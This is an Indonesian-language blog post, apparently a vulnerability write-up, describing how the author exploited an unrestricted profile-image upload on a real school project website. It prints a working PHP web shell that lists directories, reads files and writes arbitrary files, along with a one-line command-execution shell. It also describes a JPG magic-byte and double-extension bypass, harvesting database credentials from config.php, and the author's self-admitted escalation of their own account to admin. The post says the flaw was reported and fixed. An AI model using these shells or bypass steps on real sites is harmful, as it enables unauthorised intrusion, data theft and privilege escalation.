







##### tes
> Kerentanan ini sudah dilaporkan dan sudah difix

Singkat cerita, saya diberi tau oleh seseorang terkait sebuah website khusus jurusan `RPL`, di website ini diberikan fitur seperti Register, Login, File Upload dll (Kelas saya tidak diberitahu karna memang kelas saya tidak diajar oleh Pak `Rian`, dan sepertinya web ini khusus untuk mengumpulkan project-project yang diajar oleh Pak `Rian`)

Dan begini tampilan website nya (setelah login),



Keren nya disini, ada fitur untuk profile, dan tentu bisa diupdate, disini kita bisa upload image untuk diset sebagai profile gambar kita,



Dan ya, disini lah juga kerentanannya berada, yaitu pada fitur `Upload Image` pada Profile. Btw, kerentanan pada fitur `Upload Image` ini akan tidak berguna jika kita tidak dapat endpoint access terhadap gambar yang telah kita kita upload, dan di website ini, seluruh gambar siswa disimpan di direktori `/assets`, yang artinya kita dapat access endpoint terhadap file yang telah kita upload.

Yang pertama, disini saat kita memilih file untuk kita dapat upload, memang disuruh untuk menginputkan file yang berekstensi gambar (`png, jpg, dll`) tapi disini alih alih kita menginputkan ekstensi file tersebut, kita dapat menginputkan file dengan ekstensi lain, seperti `txt`, dan... `php`

<video controls width="100%">
  <source src="/videos/yesking.mp4" type="video/mp4">
  Browser lo gak support video tag.
</video>


Nah, catatan nya disini, kalo yg kita upload itu adalah ekstensi file code, maka saat kita mencoba akses lewat `/assets` tidak bisa karna otomatis langsung ke download, untuk bypass ini, kita bisa bikin seolah olah gambar kita adalah gambar jpeg (gambar jpeg ketika diakses dapat mengeluarkan output raw dari file nya)

script PHP untuk LFI:
```php
<?php
if (isset($_GET['ls'])) {
    echo "<pre>";
    $path = $_GET['ls'] ?: '.';
    foreach (scandir($path) as $file) {
        echo $file . "\n";
    }
    echo "</pre>";
    exit;
}

if (isset($_GET['read'])) {
    echo "<pre>";
    echo htmlspecialchars(file_get_contents($_GET['read']));
    echo "</pre>";
    exit;
}

if (isset($_GET['write']) && isset($_POST['data'])) {
    file_put_contents($_GET['write'], $_POST['data']);
    echo "File written.";
    exit;
}
?>
```
`"Kenapa LFI? kok ga langsung RCE aja?"`

Sebelumnya udah nyoba untuk pake script RCE,
```php
<?php system($_GET["cmd"]); ?>
```
tapi gagal yang karna diblacklist oleh `Firewall` bawaan dari server, biasanya, untuk `exec`, `shell_exec`, dan `system()` diblacklist, dan ini berlaku juga untuk server hosting yang gratisan maupun berbayar

Nah, disini, untuk bypassing nya agar script PHP nya tetap bisa berjalan, kita bisa menambahkan `Magic Byte` dan `Header Byte` dari file format `JPG`



dan juga saat rename file script shell nya menjadi `shell.php.jpg`



dan setelah diupload, tinggal access aja ke endpoint `/assets`



Dan itu untuk yang LFI, sekarang yang `Database`, karna kita udh punya LFI nya, sekarang kita tinggal nyari file `config.php` atau `koneksi.php`, dan karna ini LFI, disini perlu usaha ekstra untuk mencari file nya di tiap tiap direktori



disini saya tinggal copy config nya dan tambahkan beberapa fungsi untuk menampilkan data nya berdasarkan query input,



dan disini saya punya hak akses tinggi, bisa create, read, update, dan `delete`.

Dan segitu saja Proof of Concept dari Vulnerability yang telah saya temukan, semoga bisa membantu (btw saya gak ngelakuin hal illegal selain update role saya sendiri jadi `admin` :v)


